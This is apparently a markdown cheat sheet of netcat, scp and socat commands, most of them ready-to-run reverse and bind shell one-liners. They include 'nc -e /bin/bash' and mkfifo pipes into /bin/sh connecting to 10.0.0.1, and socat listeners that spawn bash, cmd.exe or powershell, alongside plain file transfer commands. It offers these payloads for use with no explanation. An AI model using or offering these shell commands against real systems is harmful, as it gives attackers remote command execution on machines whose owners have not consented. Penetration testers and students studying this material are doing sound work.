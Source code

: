## Netcat
### Setting up a listener
```
nc -lvnp 4444
nc -e /bin/bash -lvnp 4444 --ssl
nc -e cmd.exe -lvnp 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvnp 4444 > /tmp/f
```

### Connecting to listening services
```
nc -e /bin/bash 10.0.0.1 4444 --ssl
nc -e cmd.exe 10.0.0.1 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 > /tmp/f
mkfifo /tmp/f;nc 10.0.0.1 4444 < /tmp/f|/bin/sh -i 2>&1;rm /tmp/f
```

### Send & receive files
```
nc -lvnp 4444 < file-name
nc -nv 10.0.0.1 4444 > file-name
```

## SecureCopy
### Transfer remote files to local machine
```
scp admin@10.0.0.1:<file_path> .
scp -P 4444 admin@10.0.0.1:<file_path> .
```

### Transfer local files to remote machine
```
scp <file_name> admin@10.0.0.1:[path][file name to save]
scp -P 4444 <file_name> admin@10.0.0.1:[path][file name to save]
```

## Socat
### Setting up a stabilised listener
`socat TCP-L:4444 FILE:`tty`,raw,echo=0`

### Connect to stabilised listener
`socat TCP:10.0.0.1:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Set up a standard listener
```
socat TCP-L:4444 -
socat -d -d TCP4-LISTEN:4443 STDOUT
socat TCP-L:4444 EXEC:"bash -li"
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
socat TCP-L:4444 EXEC:powershell.exe,pipes
socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes
```
